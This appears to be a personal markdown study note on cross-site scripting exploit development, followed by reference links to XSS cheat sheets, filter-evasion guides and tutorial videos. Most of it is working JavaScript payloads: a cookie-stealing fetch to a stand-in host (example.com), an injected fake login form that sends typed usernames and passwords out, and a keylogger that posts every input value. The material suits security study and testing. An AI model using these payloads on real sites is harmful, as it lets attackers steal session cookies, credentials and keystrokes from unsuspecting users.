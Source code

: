 ------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
    

# 3. Exploit Development
* Uses: CSS Selectors, Events, Event Handlers, JS Ajax Requests, JS Functions,
        JS HTML Collections, JS strings, JS objects, JS variables, JSON encoding,
        URLs
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
  * Some were not included

  **Confirm XSS**
   * In case there's an sandboxed `iframe` that is WAI (working as intended):
   ```Option1
       alert(document.domain)
       alert(window.origin)
   ```
  
  **Cookie/Credential Stealing** 
   ```Option1
       alert(document.cookie)
   ```
   ```Option2
       fetch(`https://example.com?cookie=${
        encodeURIComponent(document.cookie)}`)
   ```
   ```Option3
       f=document.createElement('form')
       u=document.createElement('input')
       u.setAttribute('type','text')
       u.setAttribute('name','username')
       p=document.createElement('input')
       p.setAttribute('type','password')
       p.setAttribute('name','password')
       f.appendChild(u)
       f.appendChild(p)
       document.body.appendChild(f)
       document.addEventListener('click',()=>{
         fetch(`https://example.com/?u=${
            u.value}&p=${p.value}
         `)    
       })
   ```

  **Keylogging**
   ```
       document.addEventListener('change', (e)=>{
         if(!e.target.matches('input,textarea'))
           return
         fetch('https://example.com',{
           method: 'POST',
           headers: {
             'Content-Type':'application/json'
           },
           body:JSON.stringify({
             key: e.target.value
           })
         })
       })
   ```
  

[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP